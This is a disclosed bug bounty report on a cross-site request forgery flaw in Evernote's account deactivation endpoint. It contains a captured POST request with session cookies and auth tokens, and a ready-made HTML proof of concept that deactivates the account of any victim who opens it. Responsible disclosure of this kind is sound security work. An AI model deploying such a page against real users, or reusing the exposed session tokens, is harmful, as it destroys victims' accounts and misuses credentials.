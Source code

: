 # CSRF leads to account deactivation of users

## Report Details
- **Report ID**: 1121990
- **URL**: https://hackerone.com/reports/1121990
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-10T05:44:31.510Z
- **Disclosed**: 2021-10-19T19:05:59.897Z

## Reporter
- **Username**: sampritdas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: evernote

## Vulnerability Information
Step to reproduce vulnerability:-

1) Create 2 account one account is for attacker and one is for victim
2) With attacker account go to https://www.evernote.com/secure/CloseAccount.action
3) Open your burpsuite and when you will press Deactivate your Evernote account you will see another popup of Before you go, we recommend... just check the reviewed and continue
4) Select that why you want to deactivate and Then press Deactivate account
5) Capture the request with burpsuite intercept on
6) Request be like:-

	POST /secure/CloseAccount.action?accountAction=deactivateAccount&json=true HTTP/1.1
	Host: www.evernote.com
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
	Accept: application/json
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 202
	Origin: https://www.evernote.com
	Connection: close
	Referer: https://www.evernote.com/secure/CloseAccount.action
	Cookie: web50017PreUserGuid=03325c9c-10bb-4705-a4db-08fde2343592; cookieTestValue=1615353230618; JSESSIONID=761EB90EE2758BBF63CDDD3D14D0DC97; userdata_lastLoginTime=1615353238172; userdata_accountType=BASIC; userdata_acctCreatedTime=1615353237000; lastAuthentication=1615353238363/8690e8a01b1354ef467f4db8066ea718; Ue9i0JAw=AK6vKhp4AQAAxbQuLjpIXLkJispAAhdLVUZDhggqGkbuCWLCXGuv2aD-bibs; last-web-version-used=Ion-on-Conduit; promoCode=86fe54e944118fc779bacb7705f6bb40; optimizelyEndUserId=oeu1615346790816r0.5547674269987128; iterableEndUserId=xacoyi5848%40nobitcoin.net; iterableEmailCampaignId=1406900; iterableTemplateId=1952543; iterableMessageId=31ec3758a6e446caa50aa9378227df08; EB_Partial_Sign_Up_Email_Capture_Variant=B_PartialCapture; WEB_51151_EB_Sign_Up_Zendesk_Chat_Variant=A_Control; _dd_s=logs=1&id=544a2ceb-8bca-4321-9826-588de3b14daf&created=1615352249296&expire=1615354270436; auth="S=s417:U=d645f78:E=1781ac54117:C=1781a8e529b:P=5fd:A=en-web:V=2:H=f7a20a70086b721eb3990baf142c7c9d"; userdata_loggedIn=true; 	clipper-sso="S=s417:U=d645f78:E=17f723f7ea4:C=1781a8e52a5:P=1d5:A=en-chrome-clipper-xauth-new:V=2:H=4c1ac923c3fa5f2f5f36681ac30a0ecb"; req_sec="U=d645f78:P=/:E=1781a9d4be9:S=bd223e7b10ca33bccfc72769f7584122"
	Sec-GPC: 1

	password=&oneTimeCode=&captchaResponse=&reasons%5Banalytic%5D=specify-reason-different-app&reasons%5Bi18nKey%5D=CloseAccountAction.accountActionSurvey.differentApp&reasons%5Bchecked%5D=true&otherReason=


6) Now do right click on request go to Engagement Tools then go to Generate CSRF PoC and Copy HTML
7) CSRF POC be like:- 
	<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.evernote.com/secure/CloseAccount.action?accountAction=deactivateAccount&json=true" method="POST">
      <input type="hidden" name="password" value="" />
      <input type="hidden" name="oneTimeCode" value="" />
      <input type="hidden" name="captchaResponse" value="" />
      <input type="hidden" name="reasons&#91;analytic&#93;" value="specify&#45;reason&#45;different&#45;app" />
      <input type="hidden" name="reasons&#91;i18nKey&#93;" value="CloseAccountAction&#46;accountActionSurvey&#46;differentApp" />
      <input type="hidden" name="reasons&#91;checked&#93;" value="true" />
      <input type="hidden" name="otherReason" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

8) Then make a file with Csrf.html and paste the html POC in it and save it 
9) When attacker will send this html file to victim and when victim will click on it this account will get Deactivate

Video POC link:- https://drive.google.com/file/d/12IJOyqVxIOqG_vTWKVJ3qwG7GTn-fV-f/view?usp=sharing

## Impact

Attacker can Deactivate victim premium accounts, And you will lost your good customer for this security flaws

## Attachments
- POC.PNG
- POC2.PNG
- POC3.PNG
- POC_account_Deactivate_.mkv
